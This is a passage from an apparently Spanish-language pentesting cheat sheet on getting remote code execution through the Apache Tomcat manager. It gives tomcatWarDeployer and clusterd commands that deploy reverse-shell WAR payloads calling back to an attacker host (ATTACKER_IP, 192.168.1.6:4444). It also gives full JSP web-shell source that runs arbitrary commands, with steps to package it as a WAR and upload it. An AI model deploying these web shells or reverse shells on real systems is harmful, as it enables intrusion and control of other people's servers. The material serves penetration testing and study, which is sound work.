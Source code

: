 ```
./tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/
```

### Culsterd

{% embed url="https://github.com/hatRiot/clusterd" %}
Fuente
{% endembed %}

```
clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows
```

### Método manual (WebShell)

Creamos un archivo index.jsp con el siguiente contenido:

```
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

Luego lo convertimos a WAR con los siguientes comandos:

```
$ mkdir webshell
$ cp index.jsp webshell
$ cd webshell
$ jar -cvf ../webshell.war *
webshell.war is created
```

DespuésDespués debes subir este archivo y acceder a `www.vulnerable.com/webshell`
